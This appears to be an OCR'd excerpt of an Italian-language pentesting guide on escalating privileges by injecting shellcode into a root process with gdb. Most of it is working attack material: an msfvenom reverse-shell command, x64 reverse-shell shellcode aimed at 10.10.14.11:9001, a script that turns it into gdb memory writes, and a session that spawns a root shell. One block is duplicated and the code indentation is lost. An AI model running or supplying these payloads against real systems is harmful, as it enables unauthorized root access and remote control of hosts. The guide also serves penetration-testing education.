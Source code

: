 ```bash
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c -b "\x00" -o shellcode.c
```

Questo comando crea uno shellcode utilizzando msfvenom per l'iniezione in memoria tramite gdb. Assicurati di sostituire `<IP>` con l'indirizzo IP del tuo listener e `<PORT>` con la porta del tuo listener. Il parametro `-f c` specifica il formato di output come codice C. Il parametro `-b "\x00"` esclude i byte null dallo shellcode. Infine, l'opzione `-o shellcode.c` specifica il nome del file di output come "shellcode.c".
```python
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
buf += b"\x48\x97\x48\xb9\x02\x00\x23\x29\x0a\x0a\x0e\x0b"
buf += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
buf += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
buf += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
buf += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
buf += b"\x0f\x05"

# Divisible by 8
payload = b"\x90" * (8 - len(buf) % 8 ) + buf

# Change endianess and print gdb lines to load the shellcode in RIP directly
for i in range(0, len(buf), 8):
chunk = payload[i:i+8][::-1]
chunks = "0x"
for byte in chunk:
chunks += f"{byte:02x}"

print(f"set {{long}}($rip+{i}) = {chunks}")
```
Debugga un processo root con gdb e copia-incolla le righe gdb generate in precedenza:

```bash
$ gdb -p <pid>
(gdb) set follow-fork-mode child
(gdb) catch exec
(gdb) run
```

```bash
$ gdb -p <pid>
(gdb) set follow-fork-mode child
(gdb) catch exec
(gdb) run
```
```bash
# In this case there was a sleep run by root
## NOTE that the process you abuse will die after the shellcode
/usr/bin/gdb -p $(pgrep sleep)
[...]
(gdb) set {long}($rip+0) = 0x296a909090909090
(gdb) set {long}($rip+8) = 0x5e016a5f026a9958
(gdb) set {long}($rip+16) = 0x0002b9489748050f
(gdb) set {long}($rip+24) = 0x48510b0e0a0a2923
(gdb) set {long}($rip+32) = 0x582a6a5a106ae689
(gdb) set {long}($rip+40) = 0xceff485e036a050f
(gdb) set {long}($rip+48) = 0x6af675050f58216a
(gdb) set {long}($rip+56) = 0x69622fbb4899583b
(gdb) set {long}($rip+64) = 0x8948530068732f6e
(gdb) set {long}($rip+72) = 0x050fe689485752e7
(gdb) c
Continuing.
process 207009 is executing new program: /usr/bin/dash
[...]
```